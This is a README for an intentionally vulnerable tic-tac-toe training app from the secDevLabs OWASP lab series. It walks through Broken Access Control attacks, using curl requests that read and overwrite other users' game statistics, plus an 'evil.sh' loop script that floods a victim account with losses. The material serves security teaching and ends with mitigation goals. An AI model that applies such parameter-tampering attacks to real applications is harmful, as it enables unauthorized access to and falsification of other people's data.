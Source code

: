 
# Tic-Tac-Toe

<p align="center"><img  src="images/a5-banner.png"/></p>

Tic-Tac-Toe is a simple Nodejs web application that contains an example of a Broken Access Control vulnerability and its main goal is to describe how a malicious user could exploit it.

## Index

- [Definition](#what-is-broken-access-control)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Broken Access Control?

Restrictions on what authenticated users are allowed to do are often not properly enforced. Attackers can exploit these flaws to access unauthorized functionality and/or data, such as access to other users' accounts, view sensitive files, modify other users’ data, change access rights, etc.

The main goal of this app is to discuss how **Broken Access Control** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh

cd secDevLabs/owasp-top10-2017-apps/a5/tictactoe

```

```sh

make install

```

Then simply visit [http://localhost:10005][App] ! 😆

## Get to know the app 🕹

To properly understand how this application works, you can follow this step:

- Try registering a user
- Sign in
- Play the game 
- See your statistics

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

#### Lack of user cookie validation allows for an attacker to get other users' game statistics

### 👀

In order to better understand how the application handles its data, two users, `user1` and `user2`, can be created using the web interface by visiting [http://locahost.:10005/create](http://localhost:.10005/create) as exemplified below:

<p  align="center"><img  src="images/attack0.png"/></p>

After logging in as `user1` and playing a few times, his/her statistics can be checked by visiting [http://localhost:10005/statistics](http://localhost:10005/statistics), as the following picture shows:

<p  align="center"><img  src="images/attack1.png"/></p>

To check how this information is being retrieved form the server, an attacker could use Developer Tools from Firefox using `Ctrl + Shift + E` or `Command + Option + E` on a Mac, as showed bellow:

<p  align="center"><img  src="images/attack3.png"/></p>

You can replicate this GET by using the following curl command (use your own `tictacsession` token):  

```sh
curl -s 'GET' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDcyODg2LCJleHAiOjE1NjM0NzY0ODZ9.ESLVZ9bbfUbUdFBFRCzxGTPICuaEWdGLxrvWykEmhNk' 'http://localhost:10005/statistics/data?user=user1'
```

```json
{"chartData":[{"y":46.15384615384615,"label":"Wins"},{"y":15.384615384615385,"label":"Ties"},{"y":38.46153846153846,"label":"Loses"}],"numbers":{"games":13,"wins":6,"ties":2,"loses":5}}
```

### 🔥

As this AJAX request is being made passing the username as a URL parameter, it may indicate that only this parameter is being used to verify the permission to get the data. To check this, using the same `tictacsession`, an attacker could replace `user1` to another known user, as `user2` for example: 

```sh
curl -s 'GET' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDcyODg2LCJleHAiOjE1NjM0NzY0ODZ9.ESLVZ9bbfUbUdFBFRCzxGTPICuaEWdGLxrvWykEmhNk' 'http://localhost:10005/statistics/data?user=user2'
```

```json
{"chartData":[{"y":100,"label":"Wins"},{"y":0,"label":"Ties"},{"y":0,"label":"Loses"}],"numbers":{"games":1,"wins":1,"ties":0,"loses":0}}
```

This fact represents a `Broken Access Control` vulnerability, allowing an attacker to see every known user's private statistics.

#### Lack of user cookie validation allows for an attacker to manipulate user statistics

### 👀

Using the same methodology, an attacker could now check what the application does when a game finishes and tries to store the result. Analyzing the browser inspector once again reveals that a POST was made to the `/game` route, as can be seen in the next image: 

<p  align="center"><img  src="images/attack4.png"/></p>

This request is done by using two parameters, `user` and `result`, as shown bellow: 

<p  align="center"><img  src="images/attack5.png"/></p>

To replicate this POST by using the curl command (use your own `tictacsession` token), you can type the following command: 

```sh
curl -s 'POST' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM' 'http://localhost:10005/game' --data-binary 'user=user1&result=win'
```

```json
OK
```

### 🔥

An attacker now could check if, by using another username into this request, he/she could modify other user's statistics. To do so, the parameter `user` is changed into another known user, as `user2` for example:

```sh
curl -s 'POST' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM' 'http://localhost:10005/game' --data-binary 'user=user2&result=win'
```

```json
OK
```
  
Imagining the worst scenario, an attacker could create a malicious script to send this same request as many times as he/she could, as can be exemplified bellow:

```sh
vi evil.sh
```

```sh
#!/bin/sh
#
# evil.sh - Add 100 losses to an user! 

user="user2"
num=100
result="lose"
tictacsession="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM"

for i in `seq 1 $num`; do
    curl -s 'POST' -b "tictacsession=$tictacsession" 'http://localhost:10005/game' --data-binary "user=$user&result=$result"
done
```

And run it: 

```sh
chmod +x evil.sh && ./evil.sh
```

```sh
OKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOK
```

To check if this attack indeed worked, the malicious user could exploit the previous vulnerability to check `user2` statistics using the following command:

```sh
curl -s 'GET' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM' 'http://localhost:10005/statistics/data?user=user2'
```

```json
{"chartData":[{"y":3.6363636363636362,"label":"Wins"},{"y":2.727272727272727,"label":"Ties"},{"y":93.63636363636364,"label":"Loses"}],"numbers":{"games":110,"wins":4,"ties":3,"loses":103}}
```

Once again, this fact represents a `Broken Access Control` vulnerability, allowing an attacker to modify every known user's private statistics.

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Access other users' private statistics.
- Modify other users' private statistics.

## PR solutions

[Spoiler alert 🚨 ] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?utf8=%E2%9C%93&q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Tic-Tac-Toe%22+)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]: https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:10005
[secDevLabs]: https://github.com/globocom/secDevLabs
[2]:https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a5/tictactoe
